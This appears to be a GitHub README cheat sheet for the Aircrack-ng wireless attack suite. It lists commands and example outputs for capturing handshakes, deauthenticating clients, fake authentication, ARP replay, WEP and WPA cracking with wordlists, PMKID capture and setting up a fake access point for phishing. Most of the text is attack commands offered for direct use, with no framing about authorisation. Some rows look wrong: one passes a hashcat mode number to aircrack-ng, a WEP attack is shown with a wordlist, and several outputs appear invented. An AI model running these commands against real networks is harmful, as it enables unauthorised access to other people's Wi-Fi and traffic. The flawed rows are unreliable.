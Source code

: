 ## Aircrack-ng Commands

- This command captures packets from a specified wireless interface and saves them in a spesific file.

```c
airodump-ng <interface>
```

- This command cracks a WEP key using the captured packets. Cryptographic attacks can be used to reveal the real password.

```c
aircrack-ng -b <BSSID> <capture_file>
```

- This command cracks a WPA/WPA2-PSK key using a wordlist and the captured handshake. It attempts to match the captured password key with possible passphrases from the wordlist.

```c
aircrack-ng -w <wordlist> -b <BSSID> <capture_file>
```

- This command enables monitor mode on a specified wireless interface connection. Monitor mode is required to be able to read and display all packets on the wireless link.

```c
airmon-ng start <interface>
```

- This command deauthenticates clients of an access point to capture the handshake; in other words, it forcibly kicks clients off the system. So that they will try and reconnect their connection, hence giving you a chance to capture the handshake and entering the system.

```c
aireplay-ng --deauth <count> -a <BSSID> -c <client_MAC> <interface>
```

- This command provides fake authentication to an access point. It assists in associating with an access point without knowing a valid password; many times, it is a prerequisite to further attacks.

```c
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC_address> <interface>
```

- This command performs an ARP(The Address Resolution Protocol) request replay attack to generate traffic. This traffic makes the process of cracking WEB keys easier and faster. This makes the Aircrack -ng tool more functional.

```c
aireplay-ng -3 -b <BSSID> -h <MAC_address> <interface>
```

- This command tests packet injection capabilities of the wireless interface. Successful packet injection is critical for network conneciton attacks.

```c
aireplay-ng -9 <interface>
```

- This turns off monitor mode on any wireless interface. Returns the interface to managed mode, returning it to normal networking. It's sort of the final stage of the attack. The programme stops running.

```c
airmon-ng stop <interface>
```

- This command displays the help menu and usage information for Aircrack-ng. It provides an overview of available options and command syntax.

```c
aircrack-ng -h
```

Alternative usage:

```c
aircrack-ng --help
```

| Command                     | Example Usage                                                                   | Function                                         | Output Example                                                                                                                                                                                                                       |
| --------------------------- | ------------------------------------------------------------------------------- | ------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Monitor Mode                | `airmon-ng start wlan0`                                                         | Enables monitor mode on wlan0 interface.         | `Interface wlan0 set to monitor mode on channel 6`                                                                                                                                                                                   |
| Stop Monitor Mode           | `airmon-ng stop wlan0`                                                          | Stops monitor mode on wlan0 interface.           | `Interface wlan0 set to managed mode`                                                                                                                                                                                                |
| Capture Packets             | `airodump-ng wlan0`                                                             | Captures packets on wlan0 interface.             | `CH  9 ][ Elapsed: 10 s ][ 2024-08-07 18:25 ]   `   `   BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID   `   `   AA:BB:CC:DD:EE:FF  -30       10       20    0   6  54e  WPA2 CCMP   PSK  MyNetwork` |
| Use a Specific Channel      | `airodump-ng --channel 6 wlan0`                                                 | Captures packets on a specified channel.         | `CH  6 ][ Elapsed: 10 s ][ 2024-08-07 18:25 ]`                                                                                                                                                                                       |
| Start WPA Handshake Capture | `airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0`                   | Captures WPA handshake for cracking later.       | `Waiting for packets...`                                                                                                                                                                                                             |
| Deauthenticate Clients      | `aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 00:11:22:33:44:55 wlan0`       | Deauthenticates clients from access point.       | `Sending 64 directed DeAuth. STMAC: [00:11:22:33:44:55]`                                                                                                                                                                             |
| Fake Authentication         | `aireplay-ng -1 0 -e MyNetwork -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0` | Performs fake authentication with access point.  | `Association successful :-)`                                                                                                                                                                                                         |
| Packet Injection Test       | `aireplay-ng -9 wlan0`                                                          | Tests packet injection capabilities.             | `Injection is working!`                                                                                                                                                                                                              |
| ARP Request Replay          | `aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0`                | Performs ARP request replay attack.              | `The AP appears to drop packets of length: 68`                                                                                                                                                                                       |
| Start WEP Attack            | `aircrack-ng -b AA:BB:CC:DD:EE:FF -w wordlist.txt capture.cap`                  | Starts WEP attack using a wordlist.              | `Attempting to crack WEP key...`                                                                                                                                                                                                     |
| Crack WEP Key               | `aircrack-ng -b AA:BB:CC:DD:EE:FF capture.cap`                                  | Cracks WEP key using capture file.               | `KEY FOUND! [ 12:34:56:78:90 ]`                                                                                                                                                                                                      |
| Crack WPA/WPA2-PSK Key      | `aircrack-ng -w rockyou.txt -b AA:BB:CC:DD:EE:FF capture.cap`                   | Cracks WPA/WPA2-PSK key using wordlist.          | `Passphrase not in dictionary   `   `   Read 100000 packets...`                                                                                                                                                                      |
| Capture PMKID for WPA/WPA2  | `hcxdumptool -i wlan0 -o capture.pmkid`                                         | Captures PMKID for WPA/WPA2 cracking.            | `PMKID: XX:XX:XX:XX:XX:XX`                                                                                                                                                                                                           |
| Use Precomputed Hashes      | `aircrack-ng -m 2500 -b AA:BB:CC:DD:EE:FF -w hashes.txt capture.cap`            | Uses precomputed hashes for cracking WPA/WPA2.   | `Cracking with precomputed hashes...`                                                                                                                                                                                                |
| Create a Fake AP            | `airbase-ng -e MyNetwork -c 6 wlan0`                                            | Creates a fake access point for phishing.        | `Starting fake access point...`                                                                                                                                                                                                      |
| WEP Injection Attack        | `aireplay-ng -2 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0`                | Sends injection packets to perform a WEP attack. | `Injection successful!`                                                                                                                                                                                                              |